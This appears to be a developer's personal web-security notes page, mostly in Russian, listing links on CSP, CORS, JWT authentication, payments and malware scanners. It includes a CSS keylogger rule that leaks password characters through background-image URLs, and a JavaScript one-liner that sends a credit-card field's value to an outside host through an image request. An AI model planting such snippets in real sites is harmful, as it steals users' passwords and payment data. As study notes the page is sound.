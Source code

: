 #  security

 * https://www.html5rocks.com/en/tutorials/security/content-security-policy/
 * [случайные числа](https://medium.com/@frontman/случайные-числа-не-случайны-252e08e60828/)
 * [css кейлоггер](http://css-live.ru/articles-css/storonnij-css-nebezopasen.html)
 * https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css
 * [https](https://www.troyhunt.com/the-6-step-happy-path-to-https/)
 * [сканер уязвимостей](https://snyk.io/)
 * [поле ввода пароля](https://www.troyhunt.com/bypassing-browser-security-warnings-with-pseudo-password-fields/)
 * [технологии аутентификации](https://github.com/teesloane/Auth-Boss)
 * [web checklist 2017](https://simplesecurity.sensedeep.com/web-developer-security-checklist-f2e4f43c9c56)
 * [Топ-25 программных ошибок, составленный CWE/SAN;](http://cwe.mitre.org/top25/#Listing)
 * [Топ-10 угроз безопасности веб-приложениям, составленный OWASP.]()
 * [оценка безопасности ПО](https://tproger.ru/translations/measuring-the-security-of-your-software/)
 * http://tproger.ru/tag/safe-code/
 * [Анализ уязвимостей процесса аутентификации](https://bmsdave.github.io/blog/auth-vulnerabilities/)

```css
input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }

body { 
  font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
}
```
 * https://css-tricks.com/snippets/css/font-stacks/
 

## Теория

 * [Учебное пособие по защите информации кафедры радиотехники и систем управления МФТИ](https://github.com/vlsergey/infosec)

## платежи payments

 * [Как работает безопасный прием платежей в интернет-магазине](https://habr.com/ru/post/241413/)
 * [invoices workflow](https://stripe.com/docs/billing/invoices/workflow)

## cors

 * https://fetch.spec.whatwg.org/#concept-http-fetch
 * https://fetch.spec.whatwg.org/#concept-request-mode
 * http://grishaev.me/cors
 * http://restlet.com/company/blog/2015/12/15/understanding-and-using-cors/
 * https://www.html5rocks.com/en/tutorials/cors/
 * маскируемся под форму:
 ```
 POST
 data: "user=111&PWD=1111"
 'Content-Type': 'application/x-www-form-urlencoded'
 ```
 * [расширение хрома](https://github.com/chrisdeely/ForceCORS)
    * https://chrome.google.com/webstore/detail/forcecors/oajaiobpeddomajelicdlnkeegnepbin
 * [втыкаем прокси для вебпака](https://github.com/angular/angular-cli/blob/master/docs/documentation/stories/proxy.md)
 ```
	const PROXY_CONFIG = [
			{
			"/server": {
				"target": "https://server:8081/api",
				"secure": false,
				"changeOrigin": true,
				"index": "",
				"host": "server:8081/",
				"logLevel": "debug",
				"pathRewrite": {
					"^/server": ""
			}
		}
	]

	module.exports = PROXY_CONFIG;
 
 ng serve --proxy-config proxy.conf.js
 ```
 * [заголовки http](https://www.w3.org/TR/cors/#syntax)
 * проверка
 ```bash
 curl -v 'http://8.8.8.8:8080/index.html' --data 'user=11111&pass=22222' -H 'Content-Type:application/x-www-form-urlencoded'
 curl -v 'http://8.8.8.8:8080/index.html?user=11111&pass=22222' -H 'Content-Type:application/json'
 ```
 * [сценарии атак на cors](https://www.securitylab.ru/analytics/498754.php)
 

##  авторизация и аутентификация

 * [обзор видов авторизации](https://flowers-for-all.com/post/28443)
 * [jwt](https://habrahabr.ru/company/Voximplant/blog/323160/)
 * https://habrahabr.ru/company/Voximplant/blog/323160/
 * Разница между access_token и refresh_token

	```
		— access_token не нужно хранить в базе данных, с помощью JWT можно хранить данные в токене — например userId, таким образом при каждом запросе к серверу мы избавляемся от лишнего запроса к базе данных так как ID юзера можно получить из токена
		— refresh_token хеш который хранится в базе данных.
		1. Сервер получает логин/пароль — создает access_token и refresh_token, сохраняет в базу refresh_token, отдает токены на клиент
		2. Клиент использует access_token для доступа к данным пока приложение не будет закрыто, сохраняет refresh_token в хранилище
		3. Если получает от сервера сообщение что срок access_token истек — отправляет запрос на авторизацию с refresh_token, если refresh_token не истек и совпадает с тем что в базе — сервер создает access_token и refresh_token, обновляет в базе refresh_token и отдает на клиент. Если refresh_token не валиден просит ввести логин/пароль
		4. При инициализации приложения если есть refresh_token — делает тоже что и в 3 

		1. refresh_token- это креденшалы для доступа в API при отсутствии сессии юзера. access_token — короткоживущий токен для доступа к ресурсу.
		2. Разные требования к хранению и передаче(и выдаче). То есть узнать refresh_token вы обычно не можете, так как он не гоняется через front channel.
		3. Работу с общей сессией лучше делегировать на ваш IdP/AS/OP по выбору. 

		Если у вас задача аутентификации и авторизации в API и ваши клиенты это серверные приложения, то у вас есть так называемый Client credentials flow. И вам не нужен рефреш в принципе. Просто смотрите за лайфтаймом токена и обновляете его по необходимости.
		Если есть возможность использования сертификатов, то есть client assertion grant: клиент генерирует JWT токен со своей информацией и подписывает его своим приватным ключиком. Сервер валидирует его, проверяет публичную часть (что у регистрации клиента привязан этот сертификат) и если все ок, выдает уже access_token для доступа в API.

		Если веб(SPA) или есть webview то implicit flow. Получаете access_token и вперед в API. Как протухнет — редирект за обновлением или тихонечко в айфрейме запросик. Можно поковырять кишки вот тут.
		https://github.com/AzureAD/azure-activedirectory-library-for-js/tree/dev/lib
	```
 * [Как надо хешировать пароли и как не надо](https://habr.com/ru/post/210760/)
 * [Обзор способов и протоколов аутентификации в веб-приложениях](https://habr.com/ru/company/dataart/blog/262817/)
 * [Как ты реализуешь аутентификацию, приятель?](https://habr.com/ru/company/mailru/blog/343288/)
 * [Курс MIT «Безопасность компьютерных систем». Лекция 17: «Аутентификация пользователя», часть 1](https://habr.com/ru/company/ua-hosting/blog/429680/)
 * [Классификация механизмов аутентификации пользователей и их обзор](https://habr.com/ru/post/177551/)
### беспарольная авторизация

 * [webauthn/CTAP](https://habr.com/company/1cloud/blog/353966/)
 * [по почте](https://habrahabr.ru/post/279173/)

##  web sec

https://habrahabr.ru/company/ruvds/blog/346442/

```js
var devtools = /./;
devtools.toString = function() {
  this.opened = true;
}

console.log(devtools);

if (devtools.opened === true) {
    alert('Панель разработчика открыта');
} else {
    alert('Панель разработчика закрыта');
}
```

```js
let img=new Image(); img.src="https://LULsite.com/?credit="+$('.credit')[0].value;
```

 * https://dzone.com/articles/advanced-web-security-topics
 * https://firstwiki.ru/index.php/Поиск_вирусов_на_сайте/
 * http://www.webhostingbuzz.com/wiki/iframe-injection-hack-recovery/
 * https://firstwiki.ru/index.php/Аудит_безопасности/
 * [Поиск malware/вирусов на сайте 2014](https://kamaok.org.ua/?p=570)
 * [взлом и безопасность веб-сайтов school-php.com](https://www.youtube.com/watch?v=ll9ZqAk70kk)

## сканеры

 * https://rescan.pro/
 * [google dorks scanner](https://habrahabr.ru/post/283210/)
 * [linux malware detect](firstwiki.ru/index.php/Поиск_различных_malware_скриптов/)
 * [aibolit](http://www.revisium.com/ai/)
 * http://online.drweb.com/?url=1
 * http://antivirus-alarm.ru/
 * http://xseo.in/viruscan
 * http://2ip.ru/site-virus-scaner/
 * [owasp](https://www.owasp.org/index.php/OWASP_Xenotix_XSS_Exploit_Framework#Screenshots)

 ## DPI/DLP

  * https://github.com/ValdikSS/GoodbyeDPI
  * https://github.com/bol-van/zapret
